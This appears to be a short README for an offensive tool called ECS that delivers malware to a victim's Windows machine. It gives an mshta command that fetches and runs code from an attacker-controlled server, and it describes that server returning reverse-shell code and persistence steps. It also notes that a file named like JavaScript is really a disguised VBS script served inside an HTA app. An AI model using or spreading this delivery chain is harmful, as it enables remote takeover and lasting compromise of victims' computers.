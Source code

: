 # ECS
![](./ECC.png)

## <span style="color:blue"> step1: 

 <span style="color:blue"> victim exec the malware or rce on victim : 
#### <span style="color:blue"> For windows: 
```powershell 
mshta https://< ecs service url >?uid=< victim uid >&s=1< step number in this >
``` 
## <span style="color:blue"> step 2
<span style="color:blue"> server response to victim the reversshell code and persistant acts and make main persist malware
acuatlly the file in path ecs/statics/js/step1.js is not javascript in truth its vbs script file and main html project is hta app 


